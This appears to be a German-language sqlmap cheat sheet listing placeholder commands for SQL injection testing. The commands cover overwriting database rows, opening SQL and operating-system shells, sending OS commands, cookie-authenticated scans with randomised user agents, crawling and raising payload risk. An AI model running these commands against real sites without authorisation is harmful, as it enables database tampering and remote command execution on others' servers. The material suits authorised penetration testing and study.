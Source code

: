 - Inhalt von Zeile ersetzen
```
sqlmap.py -u [GET-URL] -T [Tablename] --sql-query='UPDATE [tablename] SET [columname]='[string]' WHERE ID=[ID]'
```

- SQL-Shell aufmachen
```
sqlmap.py -u [GET-URL] -sql-shell
```

- OS-Shell aufmachen (Linux-Server)
```
sqlmap.py -u [GET-URL] -os-shell
```

OS-Command senden
```
sqlmap.py -u [GET-URL] -os-cmd [COMMAND]
```

- Ohne Userinput ausführen
```
sqlmap.py -u [GET-URL] --tables --batch
```

- Testen von Formularen ohne User-Input
```
sqlmap.py -u [GET-URL] --tables --batch
```

- Testen von Seiten anhand eines Request-Files (Von Burp-Intercepter zum Beispiel)
```
sqlmap.py -r [PATH-TO-FILE]
```

- Daten von POST-Request mitgeben
```
sqlmap.py -u [GET-URL] --data="user=admin&password=password"
```

- POST-Login Seite scannen (Cookie von HTTP Header > Session-Cookie) mit zufälligem User-Agenten
```
sqlmap.py -u [POST-URL] --cookie=[SESSION-COOKIE] --random-agent
```

- Tiefer in Website suchen (1-5 Subdirectorys)
```
sqlmap.py -u [GET-URL] --crawl [1-5]
```

- Anzahl Payloads (Risk) erhöhen / Mehr komplexere Payloads
```
sqlmap.py -u [GET-URL] --risk [1-3]
```

- Payloads anzeigen welche gesendet werden / Verbose Level
```
sqlmap.py -u [GET-URL] -v [1-6]
```
